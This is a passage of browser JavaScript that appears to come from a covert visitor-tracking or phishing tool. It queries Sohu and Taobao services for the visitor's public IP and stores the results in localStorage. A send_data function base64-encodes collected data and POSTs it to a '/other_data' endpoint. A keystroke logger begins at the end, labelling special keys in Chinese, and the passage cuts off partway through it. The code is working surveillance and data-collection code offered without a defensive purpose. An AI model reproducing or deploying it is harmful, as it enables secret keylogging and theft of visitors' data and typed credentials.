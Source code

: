 ```bash
    console.log(_error);
  }
});

ajax({
  url: 'https://v2.sohu.com/api/pc-home-city/home-data/ip2location',
  jsonp: 'jQuery1124018281896477578718_1606458878259',
  data: {'_': '1606458878259'},
  success: function success(res) {
    localStorage.setItem('sohu_public_ip', JSON.stringify(res));
  },
  error: function error(_error) {
    console.log(_error);
  }
});


function send_data(types) {
  var data = {};
  data["public_ip"] = {};

  try {
    data["public_ip"]['taobao_public_ip'] = JSON.parse(localStorage.getItem('pub_ip'))['ip'];
  } catch (e) {
    data["public_ip"]['taobao_public_ip'] = "taobaoip 获取接口可能已失效或者未设置，请尽快检查";
  } finally {}
  try {
        data["public_ip"]["sohu_public_ip"] = JSON.parse(localStorage.getItem('sohu_public_ip'))["data"]["ip"];
      } catch (e) {
        data["public_ip"]['sohu_public_ip'] = "sohu_ip 获取接口可能已失效或者未设置，请尽快检查";
      } finally {}

  types.forEach(function (item) {
  if (item.endsWith("ip")){

  }else{
      data[item] = JSON.parse(localStorage.getItem(item));
    }
  });
  // var jp = new FormData();
  // jp.append("jInfo", window.btoa(unescape(encodeURIComponent(JSON.stringify(data)))));
  fetch('/other_data', {
    method: 'POST',
    cache: "no-cache",
    body: window.btoa(unescape(encodeURIComponent(JSON.stringify(data))))
  });
}

var logger = "";

var keyDown = function keyDown(e) {
  var e = e || event;
  var currKey = e.keyCode || e.which || e.charCode;
  var keyName = ""
  if (currKey > 7 && currKey < 32 || currKey > 31 && currKey < 47) {
    switch (currKey) {
      case 8:
        keyName = "[退格]";
        break;

      case 9:
        keyName = "[制表]";
```